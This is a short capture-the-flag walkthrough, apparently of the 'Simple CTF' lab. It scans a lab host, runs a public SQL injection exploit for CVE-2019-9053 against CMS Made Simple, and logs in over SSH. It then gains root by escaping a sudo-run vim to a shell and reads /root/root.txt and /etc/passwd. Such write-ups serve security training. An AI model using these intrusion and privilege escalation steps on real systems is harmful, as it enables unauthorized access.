




# Simple CTF


## Recognition

```bash
nmap -sV -A 10.10.52.109
```

From there, we discover several things.



We can see that there is an SSH port open and an apache server running on port 80.

So we can scan the server with `gobuster` or `nikto`.

```bash
gobuster dir -u http://10.10.52.109 -w /usr/share/wordlists/dirb/common.txt -t 10
nikto -h 10.10.52.109
```

We end up discovering several pages/folders available



The only one we are really interested in is `/simple` or at least it is the only one that allows us to attack. Indeed, the CMS Made Simple software is running at this location and by doing some research, we realize that an SQL Injection is possible (CVE-2019-9053).


## Exploit

You can find an exploit on the internet [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)<br>

We run it and we find what we need as information to test the connection via ssh.

```python
python exploit.py -u http://10.10.52.109/simple --crack -w /usr/share/wordlists/dirb/common.txt
```



```bash
ssh mitch@10.10.52.109 -p 2222
```

We can ask who we are with `whoami` (spoiler: mitch)
and ask about the `uname -a` machine

We especially want to know what mitch can do

```bash
sudo -l
```



So we run vim in sudo
```bash
sudo vim
```

once inside
```bash
:!bash
```

We are finally root on the machine!

We can recover the requested information:

```bash
cat /root/root.txt
cat /etc/passwd | grep home
cat user.txt
```

THE END.